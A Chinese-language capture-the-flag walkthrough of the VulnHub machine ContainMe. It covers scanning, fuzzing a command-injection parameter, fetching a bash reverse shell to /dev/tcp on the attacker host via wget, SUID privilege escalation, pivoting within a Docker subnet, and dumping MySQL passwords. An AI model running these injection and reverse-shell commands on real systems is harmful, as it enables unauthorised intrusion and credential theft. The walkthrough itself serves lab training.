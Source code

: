 # THM-ContainMe-v4

[toc]

> 靶机地址：[ContainMe: 1](https://www.vulnhub.com/entry/containme-1,729/)
>
> 下载地址：[**THM-ContainMe-v4.ova** (Size: 2.2 GB)](https://download.vulnhub.com/containme/THM-ContainMe-v4.ova)

### 信息收集

**主机发现**

```bash
sudo arp-scan -l   
```

![image-20230916193734432](./imgs/image-20230916193734432.png)

**端口扫描**

```bash
sudo nmap -A -p- 192.168.8。9
```

![image-20230916194135574](./imgs/image-20230916194135574.png)

**目录扫描**

```bash
sudo dirb http://192.168.8.9
```

![image-20230916194149685](./imgs/image-20230916194149685.png)

```bash
dirsearch -u 192.168.8.9 -i 200
```

![image-20230916194236035](./imgs/image-20230916194236035.png)

发现三个文件`index.php,index.html,info.php`

依次访问看一下

`index.html`

![image-20230916194305959](./imgs/image-20230916194305959.png)

---

`info.php`

![image-20230916194317899](./imgs/image-20230916194317899.png)

返回了`php探针`

---

`index.php`

![image-20230916194333387](./imgs/image-20230916194333387.png)

页面结果好像执行了`ls -la`命令

查看页面源代码：

![image-20230916194350512](./imgs/image-20230916194350512.png)

### 漏洞利用

#### 模糊测试 fuzz ?

> [什么是fuzz](https://blog.csdn.net/qq_33583069/article/details/131481577)
>
> [什么是模糊测试？](https://blog.csdn.net/m0_57290404/article/details/122366920)
>
> [wfuzz使用1](https://blog.csdn.net/JBlock/article/details/88619117)
>
> [wfuzz使用2](https://blog.csdn.net/weixin_45059752/article/details/122359921)

wfuzz自动字典位置`/usr/share/wfuzz/wordlist`

```bash
wfuzz -c -u http://192.168.80.139/index.php?FUZZ=../../../../../../etc/passwd -w /usr/share/wfuzz/wordlist/general/common.txt --hh 329
```





发现了参数path,手动确认一下:

```bash
http://192.168.80.139/index.php?path=/etc/passwd
```

![image-20230916194428312](./imgs/image-20230916194428312.png)

![image-20230916194510571](./imgs/image-20230916194510571.png)

```bash
http://192.168.8.9/index.php?path=/etc
```

![image-20230916194520924](./imgs/image-20230916194520924.png)



```bash
http://192.168.8.9/index.php?path=;id
```



![image-20230916194547965](./imgs/image-20230916194547965.png)

发现确实存在命令执行漏洞

查看那个目录可以写入文件

```bash
http://192.168.8.9/index.php?path=;%20ls%20-l%20%20/
```

![image-20230916194636688](./imgs/image-20230916194636688.png)



kali上开启http服务

```bash
python -m http.server 80
```

![image-20230916194818827](./imgs/image-20230916194818827.png)

写一个反弹shell

```bash
#!/bin/bash
# code.sh
bash -i &> /dev/tcp/192.168.8.8/6868 0>&1;
```



在地址栏中输入

```bash
http://192.168.8.9/index.php?path=;wget -P /tmp 192.168.8.8/code.sh;ls -la /tmp;
```

![image-20230916195149426](./imgs/image-20230916195149426.png)

写入脚本文件后在kali端开启对`6868`端口的监听

```bash
nc -lvp 6868
```



![image-20230906200735088](./imgs/image-20230906200735088.png)

然后利用命令执行漏洞使用`bash`进行执行`code.sh`文件，命令：`bash /tmp/code.sh`，成功获得shell权限



![image-20230916200023465](./imgs/image-20230916200023465.png)

### 提权

查看是否有能以`root`身份执行的文件

```bash
 sudo -l
```

![image-20230906202540057](./imgs/image-20230906202540057.png)



查看`/home`

![image-20230906201530022](./imgs/image-20230906201530022.png)

```bash
  find / -user root -perm /4000 2>/dev/null
```

![image-20230906202642258](./imgs/image-20230906202642258.png)

发现`mike`用户家目录下的`1cryptupx`和使用`find`命令查看出来的`suid`中都有类似的`crypt`

那就`cd /usr/share/man/zh_TW/` 执行该`crypt`文件，看看效果

![image-20230906203112538](./imgs/image-20230906203112538.png)



![image-20230916200207495](./imgs/image-20230916200207495.png)

拿到交互shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

拿到root后，并没有拿到真正的权限，而在处在Docker容器里

![image-20230916200951062](./imgs/image-20230916200951062.png)

扫描存活的主机

```bash
for i in {1..254} ;do (ping 172.16.20.$i -c 1 -w 5 >/dev/null && echo "172.16.20.$i" &) ;done
```

![image-20230916201003072](./imgs/image-20230916201003072.png)

扫描端口

```bash
for port in {1..65535}; do
   echo >/dev/tcp/172.16.20.6/$port &&
     echo "port $port is open"
 done 2>/dev/null |grep open

```



![image-20230916200801683](./imgs/image-20230916200801683.png)

利用ssh密钥登陆到`mike`用户上

```ssh
```

![image-20230916201133433](./imgs/image-20230916201133433.png)

![image-20230916201149939](./imgs/image-20230916201149939.png)

![image-20230916201232267](./imgs/image-20230916201232267.png)

查看开放的端口

![image-20230916201314460](./imgs/image-20230916201314460.png)

连接Mysql

![image-20230916201350085](./imgs/image-20230916201350085.png)

获取数据

![image-20230916201455678](./imgs/image-20230916201455678.png)

```
+-------+---------------------+
| login | password            |
+-------+---------------------+
| root  | bjsig4868fgjjeog    |
| mike  | WhatAreYouDoingHere |
+-------+---------------------+
```

![image-20230916201658086](./imgs/image-20230916201658086.png)
